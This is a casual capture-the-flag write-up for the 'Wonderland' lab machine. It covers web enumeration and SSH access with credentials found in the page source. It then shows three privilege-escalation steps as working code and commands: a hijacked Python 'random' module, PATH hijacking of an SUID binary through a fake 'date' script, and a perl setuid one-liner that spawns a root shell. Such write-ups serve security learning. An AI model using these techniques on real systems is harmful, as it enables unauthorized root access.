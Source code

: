 # Here Are Notes For My WriteUp

## Enumeration
nmap scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
dirb scan:
```
---- Scanning URL: http://10.10.2.87/ ----
==> DIRECTORY: http://10.10.2.87/img/                                             
+ http://10.10.2.87/index.html (CODE:301|SIZE:0)                                  
==> DIRECTORY: http://10.10.2.87/r/    
```

### [port 80] - website
title says "Follow the White Rabbit.", there is also a picture of a white rabbit on the site
![[https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%2020211022000513.png?raw=true]]

during the dirb scan we find a directory "r", now when we go to this directory we are confronted with this message:
```
# Keep Going.

"Would you tell me, please, which way I ought to go from here?"
```
![[Pasted image 20211022001051.png]]
now, knowing what we know with all the rabbit stuffs we can assume there might be another directory following the word rabbit, and sure enough when we direct to "/r/a" it continues this message:
```
# Keep Going.

"That depends a good deal on where you want to get to," said the Cat.
```
![[Pasted image 20211022001227.png]]
now im not going to waste time in this so we'll just skip to the part where we get to "/r/a/b/b/i/t" where we find this:
![[Pasted image 20211022001333.png]]

## Initial Foothold
---
now, inspecting the source code we find an ssh username and password for the user "alice" 
![[Pasted image 20211022001558.png]]
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
we can assume this is an ssh login as it is the only other service running on this machine, and sure enough... it works!
![[Pasted image 20211022001830.png]]

![[Pasted image 20211022002113.png]]
listing alice's directory we find two iregular things, for one the root flag is stored on the user's profile, yet no user flag is to be found, odd. the next iregular thing would be the python script named "walrus_and_the_carpenter.py"


now, lets start some priviledge escalatin !!

## Priviledge Escalation
i love this machine as it requires alot of horizontal movement, and features some cool privesc, not just a kernel exploit here and there (atleast, not at the beginning, tehe)

### Moving Laterally (alice -> rabbit)
first thing i usually do when i have a password for a user is to run "sudo -l" to see if we are able to run anything as root or a more priviledged user. running this here we find out we can run the python script we found earlier as the user "rabbit"
![[Pasted image 20211022002946.png]]

now looking into the script, we see that it imports the "random" module and prints 10 random lines from the "poem" variable:
```python
import random
poem = "long fucking poem lulull"

for i in range(10):
    line = random.choice(poem.split("\n"))
```
**NOTE: THE POEM VARIABLE HAS BEEN SHORTENED AS TO NOT MAKE THIS SCRIPT TAKE UP HALF OF THE PAGE**

now you may be thinking to yourself, welp this script cant help us at all, its IRON CLAD!! welp, you'd be wrong !!!! 

before we start writing our own script, let me give you a brief lesson in how python accesses modules. now when you import a module python first, before looking for it elsewhere checks locally, within the folder that the script is stored in to see if there is a python file with the same name. 

knowing this we can now go ahead and intercept the search for the "random" module by writing our own "random.py" script, using the "choice" function to spawn a shell, as this is what function the script is accessing. here is what our "random.py" should look like

```
import pty

def choice(x):
    pty.spawn("/bin/bash")
```
remember and add the "(x)" as the script provides an input and we dont want to cause any unwanted errors, and we dont need to return anything because we will have shell lul (technically we could set a keypress to return and exit the program if we need a way out but i cba writing that in lulu :p)

now for a sanity check lets run the code on the interpreter just to check pty will work on this machine:
![[Pasted image 20211022004354.png]]
as we can see, it works perfect :)

now running 
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
we should now get a shell as rabbit!
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

now moving to /home/rabbit we find a perculiar file 
![[Pasted image 20211022004932.png]]

---
### Moving Laterally Once More (rabbit -> hatter)
looking at this file's permisions we see that it is a SUID binary !!!! woow, now how this is going to work is verry similar to what we just did with random.py, only now with bash !!!!!
![[Pasted image 20211022005141.png]]

as we can see this is an executable, not a script so we cant just cat it out like normal... or can we?

![[Pasted image 20211022005347.png]]
catting out the executable shows a bunch of gibberish but around the middle we can see some text !!!!! normally we would run strings to see this more clearly but this machine doesnt seem to have it installed :(

looking at the text we can read we see a possible attack vector... date!!!!!

now you may also see the echo command being used, but we cannot use this as an attack vector as this uses a full path to the echo file, however, date does not. and we can use this to our advantage.

#### SUID TUTORIAL FOR NEWBS
#### #1 - FIND ATTACK VECTOR
done :)
#### #2 - MAKE UR SCRIPT
now we have our attack vector "date", we can now create a fake "date" script and make the "teaParty" script run our fake one and give us a shell, ez-pz!!! write this script and save it as "date"
```bash
#!/bin/bash

bash
```

#### #3 - MAKE IT ABL 2 RUN
now run chmod +x on our script to make it executable
```bash
chmod +x /home/rabbit/date
```

#### #4 - ADD THE SCRIPT'S FOLDER TO THE START OF THE $PATH VARIABLE SO THE EXECUTABLE SEE'S OUR MALICIOUS SCRIPT FIRST
move to /home/rabbit/date and run this command
```bash
export PATH=$(pwd):$PATH
```

#### #5 - HOPE FOR THE BEST
now for the moment of truth, run the teaParty script and you should hopefully have a shell!!!!!
![[Pasted image 20211022010818.png]]

and boom !!! we have sucessfully privesc'd 2 accounts. now to get to root, hehe :3

we can start by moving to /home/hatter where we find an ssh password for hatter, deserved after having to deal with 2 variations of shitty shells heheh..
![[Pasted image 20211022011257.png]]

### The Final Beast - (hatter -> root)
Congrats, we are now on the last stage, and probably the most fluid method of them all, the few before this were layed pretty much right infront of us, but this is more just up to what you know.

now personally the method i went for was setuid capabilities found in perl, now this, as far as i know isnt very common. or atleast very basically known, but my friend stumbled upon it while running privesc enum scripts and looking at gtfobins

so run:
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
and hey presto!! we have root!
![[Pasted image 20211022012719.png]]

capabilities seems to be really powerful, so im going to research them a bit more after this hahah

## Finding user.txt
now we know where root.txt is, but we never saw user.txt anywhere..

```
find / -type f -name user.txt 2>/dev/null
```
![[Pasted image 20211022013113.png]]

hmmm... it seems root and user switched places !!!! well, this is very odd heheh.. oh well, not the matter, we can now access both!!!
![[Pasted image 20211022013217.png]]

![[Pasted image 20211022013259.png]]

boom, one step closer to 0xA, heheh


